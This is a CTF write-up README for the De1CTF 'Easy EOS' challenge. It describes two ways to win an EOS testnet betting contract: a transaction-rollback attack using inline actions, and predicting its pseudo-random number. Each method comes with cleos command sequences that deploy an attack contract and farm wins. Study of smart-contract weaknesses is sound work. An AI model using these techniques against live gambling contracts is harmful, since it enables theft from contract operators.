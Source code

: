 [中文](./README_zh.md) [English](./README.md)
>  Congratulations to Whitzard、$wagger、NoSugar、AAA for winning the game.

## Problem

Title: Easy EOS

Author: Gaia

Description:

```shell
Try to win this game.
account: de1ctf111eos
EOS Jungle2.0 Testnet
You need to win at least 10 times.
You can ask for a flag with the sendmail function. (username: your account, address: your email address)

hint for [Easy EOS]: the num of bet action is in range 0-4. Decompilation is optional.
hint for [Easy EOS]: if you lost，you can't bet anymore with this account.
```



## Answer

### Answer one ：*Roll Back* Attack

After observing, we found that the bet action completed the guessing number game in one transaction. If it wins, the number of wins in the users table plus 1; if lost, the number of lost in the users table plus 1.

By deploying contracts, we can use the "inline action" method to make guess numbers and judgments. The first action is to guess the number, and the second action is to judge whether we win or not. If we win, pass; if we lose, throw an exception and roll back the entire transaction.

The way to attack

```shell
# set permissions
cleos set account permission gllrgjlqclkp active '{"threshold": 1,"keys": [{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight": 1}],"accounts":[{"permission":{"actor":"gllrgjlqclkp","permission":"eosio.code"},"weight":1}]}' owner -p gllrgjlqclkp@owner
# Compile contract
cd attack4
eosio-cpp -o attack4.wasm attack4.cpp
# Deploy contract
cleos set contract gllrgjlqclkp . -p gllrgjlqclkp@active
# Call the makebet method multiple times until the number of account wins is greater than or equal to 10
cleos push action gllrgjlqclkp makebet '[]' -p gllrgjlqclkp@active
# Ask for a flag
cleos push action de1ctftest11 sendmail '["gllrgjlqclkp", "xxxx@qq.com"]' -p gllrgjlqclkp@active
```

### Answer two ：Pseudo random number

Decompile the contract, get the algorithm that generates the pseudo-random number, deploy the corresponding contract. In a transaction, calculate the random number to be generated, and then use the random number to call the bet action of the target contract.

The way to attack

```shell
# set permissions
cleos set account permission btdaciaibmfp active '{"threshold": 1,"keys": [{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight": 1}],"accounts":[{"permission":{"actor":"btdaciaibmfp","permission":"eosio.code"},"weight":1}]}' owner -p btdaciaibmfp@owner
# Compile contract
cd attack
eosio-cpp -o attack.wasm attack.cpp
# Deploy contract
cleos set contract btdaciaibmfp . -p btdaciaibmfp@active
# Call makebet method 10 times
cleos push action btdaciaibmfp makebet '[]' -p btdaciaibmfp@active
# Ask for a flag
cleos push action de1ctftest11 sendmail '["btdaciaibmfp", "xxxxxx@gmail.com"]' -p btdaciaibmfp@active
```





